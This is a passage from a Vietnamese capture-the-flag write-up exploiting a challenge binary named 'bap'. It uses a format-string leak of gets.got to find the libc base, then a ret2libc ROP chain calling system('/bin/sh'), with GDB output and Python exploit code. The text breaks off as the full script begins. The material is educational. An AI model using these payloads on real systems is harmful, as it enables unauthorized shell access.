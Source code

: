 Như ở trên chúng ta đã phân tích, format là hoàn toàn do chúng ta kiểm soát, nên ta có thể tận dụng nó để leak bất kì dữ liệu nào mà ta muốn nhờ vào `%p` và `%s` . Nhưng ở đây chúng ta không thể leak được `__libc_start_main` vì cơ bản nếu ta leak được nó thì chương trình sẽ end luôn và không cho ta làm gì tiếp theo, cho nên việc đầu tiên ta cần làm là `return to main`  để nó quay về hàm `main` một lần nữa (biện pháp leak libc thay thế là ta có thể dùng bảng GOT), điều này khá tiện cho việc setup payload của ta về sau. Ở đây mình sẽ vừa `leak` dữ liệu và vừa cho nó `return to main` luôn làm như vậy sẽ lẹ hơn. Như vậy mình sẽ overwrite `saved RIP` bằng địa chỉ của hàm `main` và ở `rbp+0x10` mình sẽ để địa chỉ của `gets.got` . Và tiếp đến dùng GDB để xác định xem payload format string ta cần sử dụng để leak là gì:

```bash
00:0000│ rax rsp 0x7fffffffdc40 ◂— 0x6f6c6c6568 /* 'hello' */
01:0008│-008     0x7fffffffdc48 —▸ 0x401090 (_start) ◂— endbr64
02:0010│ rbp     0x7fffffffdc50 ◂— 1
03:0018│+008     0x7fffffffdc58 —▸ 0x7ffff7db0d90 (__libc_start_call_main+128) ◂— mov edi, eax
04:0020│+010     0x7fffffffdc60 ◂— 0
```

Bằng một phép tính đơn giản (hoặc đếm) thì ta có thể xác định được `number` ta sử dụng là `11` → `%11$s` . Vậy payload của ta đoạn nãy sẽ trông như thế này:

```python
ret = 0x000000000040101a
pop_rdi = 0x000000000002a3e5

pl = b'%11$s' + b'A' * 19
pl += p64(ret) + p64(exe.sym.main) + p64(exe.got.gets)
sla(b': ',pl)

leak = u64(ru(b'A')[:-1] + b'\0\0')
libc.address = leak - libc.sym.gets
info('Leak: ' + hex(leak))
info('Libc base: ' + hex(libc.address))
```

## Get shell

Có `libc base` rồi thì việc get shell khá đơn giản:

```python
pl = b'B'*24
pl += p64(ret)
pl += p64(libc.address + pop_rdi) + p64(next(libc.search(b'/bin/sh')))
pl += p64(libc.sym.system)
sla(b': ',pl)
```

- **Full payload**

    ```python
    #!/usr/bin/python3
    from pwncus import *
    from time import sleep

    # context.log_level = 'debug'
    exe = context.binary = ELF('./bap_patched', checksec=False)
    libc = ELF('libc.so.6', checksec=False)
